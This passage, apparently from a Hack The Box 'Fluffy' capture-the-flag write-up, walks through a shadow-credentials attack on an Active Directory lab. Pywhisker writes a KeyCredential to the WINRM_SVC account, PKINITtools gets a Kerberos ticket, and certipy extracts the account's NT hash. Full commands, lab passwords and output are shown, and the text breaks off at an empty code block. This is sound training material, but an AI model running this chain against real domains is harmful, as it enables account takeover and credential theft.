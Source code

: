 ```sh
pywhisker/pywhisker   main  python pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "WINRM_SVC" --action "add" -v
[*] Searching for the target account
[*] Target user found: CN=winrm service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: d85055f2-00ec-d631-58da-b8cb56a90728
[*] Updating the msDS-KeyCredentialLink attribute of WINRM_SVC
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: XXfR2x0V
[VERBOSE] No pass was provided. The certificate will be stored with the password: 9MEM28pt6DiFHLbQK7qs
[*] Converting PEM -> PFX with cryptography: XXfR2x0V.pfx
[+] PFX exportiert nach: XXfR2x0V.pfx
[i] Passwort für PFX: 9MEM28pt6DiFHLbQK7qs
[+] Saved PFX (#PKCS12) certificate & key at path: XXfR2x0V.pfx
[*] Must be used with password: 9MEM28pt6DiFHLbQK7qs
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[VERBOSE] Run the following command to obtain a TGT
[VERBOSE] python3 PKINITtools/gettgtpkinit.py -cert-pfx XXfR2x0V.pfx -pfx-pass 9MEM28pt6DiFHLbQK7qs fluffy.htb/WINRM_SVC XXfR2x0V.ccache

```sh
[nix-shell:~/ctf/htb/season8/fluffy/pywhisker/pywhisker]$ python3 PKINITtools/gettgtpkinit.py -cert-pfx XXfR2x0V.pfx -pfx-pass 9MEM28pt6DiFHLbQK7qs fluffy.htb/WINRM_SVC XXfR2x0V.ccache
2025-05-26 04:46:30,948 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-26 04:46:30,964 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-26 04:46:41,701 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-26 04:46:41,701 minikerberos INFO     27422bc81fceaf1db94fd83d9b45c04422b14d370229d9d834aaa59646e71fde
INFO:minikerberos:27422bc81fceaf1db94fd83d9b45c04422b14d370229d9d834aaa59646e71fde
2025-05-26 04:46:41,709 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
(.venv)

Using our ticket, we can now auth with the ticket to get our NTLM hash

```sh
pywhisker/pywhisker   main  certipy cert -export -pfx XXfR2x0V.pfx -password 9MEM28pt6DiFHLbQK7qs -out unprotected.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing PFX to 'unprotected.pfx'
pywhisker/pywhisker   main  certipy auth -pfx unprotected.pfx -dc-ip 10.129.167.185 -username winrm_svc -domain fluffy.htb -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: winrm_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Got hash for 'winrm_svc@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:33bd09dcd697600edf6b3a7af4875767

And using our NTLM hash, we can authenticate as our user.

```sh
```